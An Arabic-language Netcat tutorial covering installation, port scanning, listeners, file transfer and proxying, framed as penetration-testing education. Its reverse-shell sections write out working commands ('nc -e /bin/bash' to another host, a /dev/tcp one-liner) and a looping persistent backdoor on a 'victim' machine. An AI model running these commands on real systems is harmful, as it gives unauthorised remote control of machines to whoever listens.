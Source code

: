 # 🔥 **شرح أداة Netcat – سكين الجيش السويسري للشبكات** 🔥

## **🟢 ما هي أداة Netcat؟**

**Netcat (nc)** هي أداة قوية تعمل من سطر الأوامر وتُستخدم لإنشاء اتصالات TCP و UDP، نقل الملفات، فحص الشبكات، وإنشاء **باك دور** (Backdoor) أثناء اختبار الاختراق.

✅ تعمل على **Linux, Windows, macOS**  
✅ تُستخدم في **فحص المنافذ، استكشاف الأخطاء، واختبار الاختراق**  
✅ يمكن استخدامها كـ **سيرفر أو كلاينت**

---

## **🎯 لماذا نستخدم Netcat؟**

🔹 **فتح المنافذ والاستماع للاتصالات** (Listener).  
🔹 **إنشاء اتصالات TCP و UDP**.  
🔹 **نقل الملفات بين الأجهزة**.  
🔹 **تنفيذ أوامر عن بُعد**.  
🔹 **فحص المنافذ والسيرفرات**.  
🔹 **إنشاء باك دور للتحكم بالجهاز**.

---

## **📌 تثبيت Netcat في Linux**

Netcat غالبًا يكون مثبتًا افتراضيًا، لكن إذا لم يكن لديك، يمكنك تثبيته باستخدام:

```bash
sudo apt install netcat -y      # في Debian/Ubuntu
sudo yum install nc -y          # في CentOS/RHEL
sudo pacman -S netcat           # في Arch Linux
```

📌 **الخلاصة:** Netcat موجود في أغلب الأنظمة ويمكن تثبيته بسهولة.

---

## **🚀 أوامر Netcat الأساسية**

### **1️⃣ فحص المنافذ المفتوحة في سيرفر معين**

```bash
nc -zv 192.168.1.1 80 443
```

👀 **النتيجة:** يفحص هل المنافذ **80 و 443** مفتوحة على الجهاز **192.168.1.1**.  
🔹 الخيار `-z`: وضع الفحص بدون إرسال بيانات.  
🔹 الخيار `-v`: يُظهر تفاصيل الاتصال.

---

### **2️⃣ فتح منفذ والاستماع للاتصالات (Listener Mode)**

```bash
nc -lvp 4444
```

👀 **النتيجة:** يستمع للاتصالات الواردة على المنفذ **4444**.  
🔹 `-l`: تشغيل Netcat كخادم.  
🔹 `-v` : عرض تفاصيل الاتصال.  
🔹 `-p 4444` : تحديد المنفذ.

---

### **3️⃣ الاتصال بسيرفر عبر Netcat (Client Mode)**

```bash
nc 192.168.1.100 4444
```

👀 **النتيجة:** يتصل بالسيرفر الذي يعمل على **192.168.1.100** عبر المنفذ **4444**.  
📌 يمكن تجربة ذلك بين جهازين متصلين بنفس الشبكة.

---

### **4️⃣ نقل الملفات بين جهازين باستخدام Netcat**

📌 **على الجهاز المستقبل:**

```bash
nc -lvp 4444 > received.txt
```

📌 **على الجهاز المرسل:**

```bash
nc 192.168.1.100 4444 < myfile.txt
```

👀 **النتيجة:** يتم نقل الملف **myfile.txt** إلى الجهاز المستقبل باسم **received.txt**.

---

### **5️⃣ إرسال ملف بصيغة مضغوطة عبر Netcat**

📌 **على الجهاز المستقبل:**

```bash
nc -lvp 4444 | tar -xvf -
```

📌 **على الجهاز المرسل:**

```bash
tar -cvf - myfolder | nc 192.168.1.100 4444
```

👀 **النتيجة:** يتم إرسال مجلد **myfolder** بصيغة مضغوطة إلى الجهاز الآخر.

---

### **6️⃣ إنشاء شل عكسي (Reverse Shell) لاختبار الاختراق**

📌 **على الجهاز الضحية (Linux):**

```bash
nc -e /bin/bash 192.168.1.100 4444
```

📌 **على جهاز المخترق:**

```bash
nc -lvp 4444
```

👀 **النتيجة:** يتم فتح **شل عكسي**، مما يسمح بالتحكم في الجهاز الضحية عبر الطرفية.  
📌 **ملاحظة:** قد تحتاج إلى `nc -e` في بعض الإصدارات، أو استخدام:

```bash
/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```

---

### **7️⃣ إنشاء باك دور ثابت باستخدام Netcat**

📌 **على الجهاز الضحية:**

```bash
while true; do nc -e /bin/bash 192.168.1.100 4444; done
```

👀 **النتيجة:** عند انقطاع الاتصال، سيتم **إعادة فتحه تلقائيًا**.

---

### **8️⃣ تحويل Netcat إلى وكيل بروكسي**

```bash
mkfifo backpipe
nc -lvp 8080 0<backpipe | nc target.com 80 1>backpipe
```

👀 **النتيجة:** يعمل كوكيل لتوجيه حركة المرور عبر الجهاز.

---

## **📌 فحص المنافذ عبر Netcat**

### **🔹 فحص منفذ واحد فقط**

```bash
nc -zv 192.168.1.1 80
```

👀 **النتيجة:** يتحقق مما إذا كان **المنفذ 80 مفتوحًا** على الجهاز المستهدف.

---

### **🔹 فحص جميع المنافذ (1-65535)**

```bash
nc -zv 192.168.1.1 1-65535
```

👀 **النتيجة:** يبحث عن **المنافذ المفتوحة** على الجهاز المستهدف.

---

### **🔹 فحص منافذ متعددة بسرعة عالية**

```bash
nc -zvw 1 192.168.1.1 21 22 25 80 443
```

👀 **النتيجة:** يفحص المنافذ بسرعة **أكبر** ويُظهر النتائج بالتفصيل.

---

## **📌 خطوات عملية لاختبار الاختراق باستخدام Netcat**

### **🔹 الخطوة 1: فحص المنافذ على الهدف**

```bash
nc -zv 192.168.1.100 1-65535
```

👀 **النتيجة:** يحدد المنافذ المفتوحة على الجهاز.

---

### **🔹 الخطوة 2: فتح اتصال عكسي من الجهاز المستهدف**

```bash
nc -e /bin/bash 192.168.1.100 4444
```

👀 **النتيجة:** يفتح شل عكسي يسمح لك بالتحكم بالجهاز.

---

### **🔹 الخطوة 3: نقل ملفات خفية بين الأجهزة**

```bash
nc -lvp 5555 > secret.zip
```

👀 **النتيجة:** يتم إرسال الملفات دون الكشف عنها بسهولة.

---

## **🚀 الخلاصة النهائية**

📌 **Netcat هي أداة قوية وسهلة الاستخدام لفحص الشبكات، نقل الملفات، وإنشاء شلات عكسية**.  
📌 **يمكن استخدامها في اختبار الاختراق، التواصل بين الأجهزة، وإنشاء باك دور**.  
📌 **تمتلك أوامر متعددة تجعلها سكين الجيش السويسري للشبكات!**

🔥 **إذا كنت تعمل في اختبار الاختراق أو أمان الشبكات، فإن Netcat أداة أساسية لا غنى عنها! 🚀**